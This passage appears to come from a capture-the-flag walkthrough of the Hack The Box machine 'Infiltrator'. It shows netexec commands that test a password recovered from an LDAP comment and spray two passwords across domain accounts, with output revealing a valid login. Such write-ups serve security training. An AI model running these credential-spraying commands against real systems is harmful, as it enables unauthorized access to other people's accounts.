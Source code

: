 K.turner looks like they have a password in the LDAP comment, but it doesn’t work on the domain:

```

oxdf@hacky$ netexec smb infiltrator.htb -u K.turner -p 'MessengerApp@Pass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\K.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE 

```

I’ll use that later.

#### Password Spray

I’ve got two passwords so far. I’ll check them against the updated user list:

```

oxdf@hacky$ netexec smb infiltrator.htb -u valid_usernames.txt -p passwords --continue-on-success
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\D.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\L.clark:WAT?watismypass! 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\M.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\O.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\A.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\K.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\E.rodriguez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\winrm_svc:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\lan_managment:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\D.anderson:MessengerApp@Pass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\M.harris:MessengerApp@Pass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\O.martinez:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\A.walker:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\K.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\E.rodriguez:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\winrm_svc:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\lan_managment:MessengerApp@Pass! STATUS_LOGON_FAILURE

```
